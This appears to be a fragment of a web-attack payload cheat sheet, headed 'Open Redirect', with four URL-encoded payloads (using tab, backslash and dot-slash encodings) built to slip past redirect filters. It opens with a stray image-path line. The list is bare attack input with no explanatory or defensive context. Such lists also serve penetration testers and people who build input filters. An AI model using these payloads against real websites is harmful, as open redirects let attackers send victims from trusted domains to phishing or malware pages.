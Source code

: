 ## Open Redirect

```
/%09/google.com
```

```
/%5cgoogle.com
```
```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```
